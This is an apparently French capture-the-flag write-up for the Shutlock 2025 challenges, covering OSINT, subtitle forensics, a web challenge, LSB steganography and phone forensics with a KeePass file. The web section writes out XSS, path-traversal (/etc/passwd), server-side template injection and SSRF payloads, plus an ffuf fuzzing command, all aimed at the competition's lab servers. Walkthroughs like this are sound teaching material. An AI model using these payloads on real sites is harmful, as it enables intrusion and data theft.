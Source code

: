 Histoire 
===============

OSINT : Un pingouin dans une botte de foin
----------------------------------------------

On cherche des infos sur Line Huks,

Avec IDCRAWL on trouve rapidement son twitter : https://x.com/LineHuks/with_replies 

Puis avec "LineHuks" on trouve également :

- Blueskye : https://bsky.app/profile/linehuks.bsky.social
- Reddit : https://www.reddit.com/user/LineHuks/

Sur Reddit elle explique qu'on peut voir qui nous a partage une vidéo sur tiktok si on est sur mobile ou avec un user agent mobile

On passe donc chrome en mode mobile et on visite son lien tiktok posté sur blueskye : vm.tiktok.com/ZNdjwpCF4/

.. figure:: ../_static/img/shutlock-2025/shutlock_1.png
    :alt: Compte Tiktok
    :align: center
    :width: 1200

On retrouve alors son compte Tiktok et ses publications.

Dans l'une d'elle on peut retrouver le flag : https://www.tiktok.com/@lestudiodutux/video/7500242847291968790 

.. figure:: ../_static/img/shutlock-2025/shutlock_2.png
    :alt: Compte Tiktok
    :align: center
    :width: 1200

On a donc notre flag : **SHLK{LABO_FOR4_CO5P}**


Forensic - Le Générique de Trop
-----------------------------------

On a plusieurs fichiers XML, dont un avec les sous titres du finalement

Dedans on retrouve ceci : 

.. code-block:: XML

    <Subtitle>
    <Start>00:00:48,500</Start>
    <End>00:00:48,500</End>
    <Text>Dans Ce Pays, Hélas, malgré le fort potentiel qu'il A, C'est une période sombre : il subit un Krack Économique Dramatique.</Text>
    </Subtitle> 

Il y a des majuscules un peu partout, si on ne garde que les majuscules on obtient DCPHACKED

On test au cas ou, c'est bien notre flag : **SHLK{DCPHACKED}**


Web - Real Be 
-----------------

On commence l'étape 2 avec le web 

Le formulaire nous emmène sur cette url : http://57.128.112.118:11658/get_url.php?video=a&director=b&email=a%40a.fr

On trouve rapidement une injection html et une xss dans le paramètre "video" : 

.. code-block:: console

    http://57.128.112.118:11658/get_url.php?video=<h1>test&director=b&email=a%40a.fr
    http://57.128.112.118:11658/get_url.php?video=<img src=x onerror='alert(1)'>&director=b&email=a%40a.fr

Mais a priori rien à en faire directement.

On se pose la question de la SSTI mais la page n'a aucun template. 

On cherche plutôt un fichier en faites 

Si on se rend sur http://57.128.112.118:11658/get_url.php

On obtient "Pas d'url ou de route donnée" 

En ajoutant email ou director en paramètre, la page ne change pas, donc seul le paramètre video est utile.

.. code-block:: console

    http://57.128.112.118:12116/get_url.php?video[1]=1
    ==> Erreur avec emplacement du fichier /var/www/html/get_url.php

    http://57.128.112.118:11658/get_url.php?video=....//....//
    ==> Film « .... » introuvable. 
    ==> filtre sur ../ ? 

    http://57.128.112.118:11658/get_url.php?video=..\..\..\..\..\etc\passwd 
    ==> Film « ..\..\..\..\..\etc\passwd » introuvable.

    http://57.128.112.118:11658/get_url.php?video=...//a
    ==> Film « a » introuvable.

On sait également que c'est du PHP, donc peut être un wrapper php ? Non

On a demandé de l'aide, en faites il faut déjà commencé par obtenir un film valide, et notamment "L is Dead" : http://57.128.112.118:11531/get_url.php?video=L+is+Dead 

Ensuite on a un formulaire de commentaire, on test tout de suite {{7*7}} et on obtient 49.

Donc c'est une SSTI, et dans le code de la page on a : 

.. code-block:: console

     <!-- service interne : invisible_server -->

On va donc essayer de contacter ce serveur avec la SSTI :

.. code-block:: console

    {{include("index.html")}}
    {{include("https://invisible_server")}} ==> allow_url_include==O donc https désactivé, pareil avec http
    {{file_get_contents('http://invisible_server/')}} ==> 403 
    {{file_get_contents('https://invisible_server/')}} ==> Connection refused
    {{fopen("http://invisible_server/", "r");}} ==> 403 
    {{print_r(get_headers("http://invisible_server/", 1))}} ==> Array ( [0] => HTTP/1.1 403 Forbidden [Date] => Thu, 26 Jun 2025 15:46:19 GMT [Server] => Apache/2.4.62 (Debian) [Content-Length] => 281 [Connection] => close [Content-Type] => text/html; charset=iso-8859-1 )
    {{ curl_exec(curl_init("http://invisible_server/")) }} ==> 403 mais affiche la page
    {{fopen("http://invisible_server/%20/", "r");}} ==> Resource id #3
    {{print_r(get_headers("http://invisible_server/%20/", 1))}} ==> Array ( [0] => HTTP/1.1 200 OK [Date] => Thu, 26 Jun 2025 16:16:06 GMT [Server] => Apache/2.4.62 (Debian) [X-Powered-By] => PHP/8.2.28 [Content-Length] => 60 [Connection] => close [Content-Type] => text/html; charset=UTF-8 )

    {{ curl_exec(curl_init("http://invisible_server/%20/")) }} ==> La route demandée n’est pas correcte ou est indisponible
    

    {{ curl_setopt($c = curl_init("http://invisible_server/%20/"), CURLOPT_CUSTOMREQUEST, "POST"); curl_setopt($c, CURLOPT_RETURNTRANSFER, true);curl_exec($c); }}


Finalement on part sur du fuzzing plutot que 403 bypass : 

.. code-block:: console

    ffuf -w doc/_static/files_to_download/wordlists/raft-medium-directories.txt -u "http://57.128.112.118:13003/get_url.php?video=L+is+Dead&comment=%7B%7B+curl_exec%28curl_init%28%22http%3A%2F%2Finvisible_server%2FFUZZ%22%29%29+%7D%7D" -fs 2096
    /interne/


On obtient ceci : 

"Bien joué ! Tu es arrivé sur le serveur secret !
Maintenant tu peux tenter de lister les ressources accessibles"

On va donc continuer le fuzzing jusqu'à trouve /interne/flag 

.. code-block:: console

    Tu viens de mettre la main sur des infos confidentielles, utiles pour la suite du challenge.
    Le but reste de vérifier que les noms donnés dans les crédits ne divulguent pas ceux des agents du ministère.
    Bon courage pour la deuxième partie du challenge.
    webapp
    ├── app
    │ ├── todo.txt
    │ └── webroot
    │ └── index.html
    └── static
    ├── capybara_detective.png
    ├── snoopy_in_a_lab.png
    ├── L-is-dead.mp4
    └── L-is-dead_DGSI.mp4.mp4
    Lien vers le dossier des vidéos : http://57.128.85.25:50014/

Bon je savais pas trop quoi faire avec les .mp4, jme suis fait bait par la description

Il faut accéder au fichier todo.txt, on est sur un serveur nginx, ça sent la misconfig ! 

On fait : http://57.128.85.25:50014/static../app/todo.txt 

Et on obtient notre flag : **SHLK{ssrf_f0und_th3_h1dd3n_p4th}**

Osint - Find The Lab 
------------------------

Il faut retrouver le lieu de la photo prise :

.. figure:: ../_static/img/shutlock-2025/lab.png
    :alt: ALEAPP
    :align: center
    :width: 1200


Misc - Affiche Etrange
--------------------------

En inspectant un peu l'image, j'ai vraiment l'impression qu'il y a quelque chose qui tient de la stegano, du type lastBuildDate

On va commencer par ce site : 

On sait maintenant que le résultat de l'extration LSB est une image, mais pas possible de la récupérer via le site. 

Donc on va faire un script : 

.. code-block:: python 

    from PIL import Image
    import itertools

    PNG_SIGNATURE = b'\x89PNG\r\n\x1a\n'

    def extract_lsb_stream(image_path, channels):
        """Extrait les bits LSB d'une image selon les canaux spécifiés, retourne un flux binaire."""
        img = Image.open(image_path).convert("RGB")
        pixels = list(img.getdata())

        bitstream = []

        for pixel in pixels:
            for i, channel in enumerate("RGB"):
                if channel in channels:
                    bitstream.append((pixel[i] & 1))

        # Regrouper les bits en octets
        bytes_out = bytearray()
        for i in range(0, len(bitstream), 8):
            byte_bits = bitstream[i:i+8]
            if len(byte_bits) < 8:
                break
            byte = 0
            for bit in byte_bits:
                byte = (byte << 1) | bit
            bytes_out.append(byte)

        return bytes_out

    def try_extract_png(image_path, output_prefix="extracted"):
        """Teste toutes les combinaisons de canaux pour retrouver un fichier PNG"""
        combinations = []
        for i in range(1, 4):  # R, RG, RGB
            combinations.extend(itertools.combinations("RGB", i))

        for combo in combinations:
            combo_str = ''.join(combo)
            print(f"[*] Test combo: {combo_str}")
            data = extract_lsb_stream(image_path, combo_str)

            sig_index = data.find(PNG_SIGNATURE)
            if sig_index != -1:
                print(f"[+] PNG signature trouvée avec {combo_str} à l’offset {sig_index}")
                png_data = data[sig_index:]

                output_file = f"{output_prefix}_{combo_str}.png"
                with open(output_file, "wb") as f:
                    f.write(png_data)
                print(f"[✓] Fichier image extrait : {output_file}")
                return output_file

        print("[-] Aucun fichier PNG détecté.")
        return None

    if __name__ == "__main__":
        try_extract_png("the_da_vinci_code.png")


On obtient alors une image qui dit : RENDEZ VOUS 24H ICI spszzm8m8 Ne soyez pas en retard. 

On a donc un code qui détermine un lieu, peut être un mapcode ? A priori non 

Ni un Plus Code.

Qu'est ce qu'il reste ? GeoHash (Merci GPT j'avoue)!! https://www.movable-type.co.uk/scripts/geohash.html 

On saisit le code : spszzm8m8

Et on trouve le casino : **SHLK{casino_barriere_le_croisette}**


Forensic - Un cadavre peut en cacher un autre
------------------------------------------------

On nous donne un dossier compressé contenant les fichiers d'un téléphone portable

Avec ls -laR donc en récursif, on trouve rapidement un fichier nommé mes-données.kdbx 

Donc une archive Keepass, mais ou trouver le mot de passe ? 

On va utiliser ALEAPP https://github.com/abrignoni/ALEAPP 

Celui ci va nous pondre un petit rapport bien sympas ! 

Dans la partie Google Message on va trouver ceci : 

.. figure:: ../_static/img/shutlock-2025/aleapp.png
    :alt: ALEAPP
    :align: center
    :width: 1200

On obtient alors cette clé qui nous permet d'ouvrir le Keepass :

.. code-block:: console

    e,PY\;J{XKp!4.M4z1}7

Pour info on le trouve aussi ici dans l'image : 

.. figure:: ../_static/img/shutlock-2025/aleapp2.png
    :alt: ALEAPP
    :align: center
    :width: 1200

.. figure:: ../_static/img/shutlock-2025/aleapp3.jpg
    :alt: ALEAPP
    :align: center
    :width: 1200

Dedans on trouve un compte : 

.. code-block:: console

    perso:KwiLTYldD6g1WNW6pcFD 

Mais ce n'est pas le flag, alors que faire ? 

On peut voir qu'il y a des fichiers "attachments" dans le keepass sur l'entrée.

On va les récupérer : 

.. figure:: ../_static/img/shutlock-2025/boardpass.png
    :alt: BoardPass
    :align: center
    :width: 1200

On a son identité, mais a priori ce n'est pas le flag. 

Finalement on trouve notre flag : 

.. figure:: ../_static/img/shutlock-2025/idcard.png
    :alt: ID Card
    :align: center
    :width: 1200

Flag : **SHLK{OHL3S4LK4F4R}**


Et on ira pas plus loin parce que crypto et pwn hard, et bah tant pis haha !